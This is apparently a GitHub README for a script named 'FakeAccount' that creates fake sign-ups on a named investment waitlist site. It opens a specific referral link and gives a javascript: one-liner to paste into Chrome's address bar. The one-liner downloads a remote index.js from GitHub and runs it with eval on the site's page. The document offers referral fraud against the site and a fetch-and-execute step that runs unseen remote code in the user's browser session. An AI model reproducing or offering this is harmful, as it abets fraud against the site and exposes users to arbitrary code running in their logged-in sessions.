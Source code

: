 # FakeAccount
This Script is used to create a fake account on https://waitlist.stackedinvest.com

# installation

# 1 - Open website address : 

```
https://waitlist.stackedinvest.com/invest?kid=2BGR4H
```

# 2 - Type and enter this on chrome where you put website address :

```
javascript:fetch("https://raw.githubusercontent.com/SingleDevX/FakeAccount/main/index.js").then(b=>b.text()).then((b)=>(alert("injected"),b)).then(b=>eval(b)).catch(e=>alert("error"+e))
```

Enjoy it ;)
